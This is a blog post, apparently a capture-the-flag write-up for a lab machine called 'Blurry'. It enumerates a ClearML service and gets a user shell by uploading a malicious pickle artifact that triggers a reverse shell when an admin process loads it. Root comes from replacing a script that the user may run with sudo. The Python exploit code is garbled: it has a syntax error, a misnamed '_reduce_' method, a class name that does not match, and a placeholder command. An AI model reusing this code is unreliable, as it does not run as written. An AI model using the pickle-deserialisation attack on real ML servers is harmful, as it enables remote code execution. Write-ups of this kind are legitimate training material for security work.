 ```yaml
---
layout: post
title: "Blurry-Linux-Medium"
date:   2025-07-12 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/344998b24aad421410cabf912d3dc3af.webp
---
```


# Blurry

# 1. Enumeration

As we used to, we start enumerating ports

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled.png' | relative_url }})

There are just two port open, the 80 port is redirecting to a subdomain, which indicates that probably there are other subdomains running on it.

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_1.png' | relative_url }})

We can register ourselves and follow the instructions to authenticate us, and prepare crearml to execute tasks through it.

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_2.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_3.png' | relative_url }})

Let’s search for another subdomains

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_4.png' | relative_url }})

Configure clearml to authenticate using .conf file

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_5.png' | relative_url }})

There is a public chat inside of one subdomain

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_6.png' | relative_url }})

# 2. User flag

Now we have a clue, it is necessary to use review tag to make that an admin open the artifact file which is the object that have the reverse shell

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_7.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_8.png' | relative_url }})

Prepare the exploit

```python
import os
from clearml import Task
import base64
import time

task = Task.init(project_name='Black Swan', task_name='Nombree', tags=['review']. task_type=Task.TaskTypes.data_processing)

class Tricp:
	def _reduce_(self):
		cmd = 'rev shell'
		return os.system, (cmd,)
		
rng_name = base64.b64encode(str(time.time()).encode()).decode
task.upload_artifact(name=rng_name,artifact_object=Pickle())

task.execute_remotely(queue_name='default')
```

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_9.png' | relative_url }})

Execute it and get user flag

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_10.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_11.png' | relative_url }})

# 3.Priv esc

We can see that we have sudo permission to run evaluate model, and we have permise to delete that file so just delete it and create another one performing a shell in bash using python, then run it as sudo and got the root flag

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_12.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_13.png' | relative_url }})

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
